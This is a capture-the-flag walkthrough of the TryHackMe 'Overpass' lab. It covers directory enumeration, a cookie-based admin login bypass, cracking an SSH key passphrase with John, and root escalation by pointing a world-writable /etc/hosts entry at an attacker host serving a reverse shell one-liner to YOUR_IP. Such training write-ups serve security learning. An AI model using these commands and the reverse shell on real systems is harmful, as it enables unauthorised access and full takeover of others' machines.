


# [Overpass](https://tryhackme.com/room/overpass)

First order of business, download and analyze the [source code](http://box.ip/downloads/).

We can see that both functions `saveCredsToFile` and `loadCredsFromFile` the function `rot47` to "encrypt" the credentials. If you know a thing or 2 about crypto, you should know that `rot47` and other caeser ciphers are incredibly weak and can easily be cracked with pen and paper. Even the comment in the source code of the front page says it:

> Yeah right, just because the Romans used it doesn't make it military grade, change this?

Next, to check the web application.

The about us page at `/aboutus` has a few names we can use for enumeration and brute forcing

- Ninja
- Pars
- Szymex
- Bee
- MuirlandOracle

It also mentions the rockyou word list, which can be tested with the found potential username names.

Using `gobuster`, we can find the admin login page

```sh
$ gobuster dir -u 'http://box.ip/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html -t 100 -r -o root
/img                  (Status: 200) [Size: 183]
/index.html           (Status: 200) [Size: 2431]
/aboutus              (Status: 200) [Size: 1749]
/downloads            (Status: 200) [Size: 1987]
/admin                (Status: 200) [Size: 1525]
/admin.html           (Status: 200) [Size: 1525]
/css                  (Status: 200) [Size: 79]
/404.html             (Status: 200) [Size: 782]
```

Looking at the source for the `/admin` page, we see a `login.js`



Looking at the function `login()`, we can see that the page tells the user "Incorrect Credentials" if the credentials are incorrect and set the cookie "SessionToken" and goes back to `/admin` otherwise.


This means that the only thing differentiating a logged in user and a non-logged-in user is having the cookie `SessionToken` set, which doesn't even include a value! To bypass the credential check, simple add the `SessionToken` cookie for the page in your browser and be shown an SSH key.



We can then use that SSH key to log in to the server's SSH as James

```sh
$ ssh -i ssh-key james@box.ip
Enter passphrase for key 'ssh-key':
```

... but the key is password-protected. We can crack the password with John.

```sh
$ ssh2john ssh-key > ssh.john
$ john ssh.john ~/tools/SecLists/Passwords/Leaked-Databases/rockyou-50.txt
```

... and log in!

```sh
james@overpass-prod:~$ ls
todo.txt  user.txt

james@overpass-prod:~$ cat todo.txt
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

So Jame's password should be somewhere on the machine. If you look at the source code for overpass, you'll see in `main()` that all the encrypted data is in `~/.overpass`.

```sh
james@overpass-prod:~$ ls -la
total 48
drwxr-xr-x 6 james james 4096 Jun 27  2020 .
drwxr-xr-x 4 root  root  4096 Jun 27  2020 ..
lrwxrwxrwx 1 james james    9 Jun 27  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james  220 Jun 27  2020 .bash_logout
-rw-r--r-- 1 james james 3771 Jun 27  2020 .bashrc
drwx------ 2 james james 4096 Jun 27  2020 .cache
drwx------ 3 james james 4096 Jun 27  2020 .gnupg
drwxrwxr-x 3 james james 4096 Jun 27  2020 .local
-rw-r--r-- 1 james james   49 Jun 27  2020 .overpass
-rw-r--r-- 1 james james  807 Jun 27  2020 .profile
drwx------ 2 james james 4096 Jun 27  2020 .ssh
-rw-rw-r-- 1 james james  438 Jun 27  2020 todo.txt
-rw-rw-r-- 1 james james   38 Jun 27  2020 user.txt
james@overpass-prod:~$ cat .overpass
[REDACTED]
```

Knowing that everything is just `rot47`'d, we can have [cyberchef](https://gchq.github.io/CyberChef/#recipe=ROT47(47)) decrypt it to get the data

```
[{"name":"System","pass":"REDACTED"}]
```

If you check `/etc/crontab` (I found this using [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh)), you'll see an interesting cron job

```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Run by root, this `curl`s a file from `overpass.thm` and pipes it to `bash` for execution. It's generally a terrible idea to `curl` unknown files and pipe them to `bash` since it can lead to execution of arbitrary unknown code, but it should be safe in this case since the admins know exactly what the code is, right?

Well actually, no. The problem here is that we may not know for sure who `overpass.thm` is. Why? If you check `/etc/hosts`...

```sh
james@overpass-prod:~$ ls -l /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```

... everyone has read/write permission to it! With this, we can edit `/etc/hosts` and change `overpass.thm` to be out attacking machine. To exploit, do the following:

1. Put this in `/etc/hosts`:

```
YOUR_IP overpass.thm
```

2. Create `downloads/src/buildscript.sh` on the attacking machine with something you wanna run, e.g. a reverse shell, and host it (don't forget to make it on port 80)

```sh
bash -c 'exec bash -i &>/dev/tcp/YOUR_IP/PORT <&1'
```

3. Listen for the call (runs every minute) and profit

Have fun with your root shell.
